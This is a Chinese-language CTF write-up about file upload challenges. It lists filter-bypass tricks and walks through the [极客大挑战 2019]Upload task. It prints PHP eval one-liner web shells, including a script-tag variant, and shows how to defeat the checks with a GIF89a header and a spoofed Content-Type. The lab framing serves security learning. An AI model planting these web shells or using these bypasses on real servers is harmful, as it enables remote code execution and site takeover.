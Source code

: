 ```yaml
---
layout: post
title:  UPLOAD
date:   2021-07-24 00:01:01 +0300
image:  2021-07-24-flowers.jpg
tags:   [ctf,web,upload]
---
```


CTF文件上传题中常用的php拓展名:

- 利用中间件解析漏洞绕过检查，实战常用
- 上传.user.ini或.htaccess将合法拓展名文件当作php文件解析
- %00截断绕过
- php3文件
- php4文件
- php5文件
- php7文件
- phtml文件
- phps文件
- pht文件

### [极客大挑战 2019]Upload

先上传一个php

```assembly
<?php @eval($_POST['hacker']); ?>
```

显示

`Not image!`

试一下phtml，phtml一般是指嵌入了php代码的html文件，但是同样也会作为php解析

```assembly
<script language="php">eval($_POST['shell']);</script> 
```

同时burpsuite拦截，将Content-Type改为`image/jpg`

显示

`Don't lie to me, it's not image at all!!!`

修改文件头，那就加上GIF89a

```assembly
GIF89a
<script language="php">eval($_POST['melody']);</script> 
```

再传，将Content-Type改为`image/jpg`

上传成功，显示

`上传文件名: b.phtml`
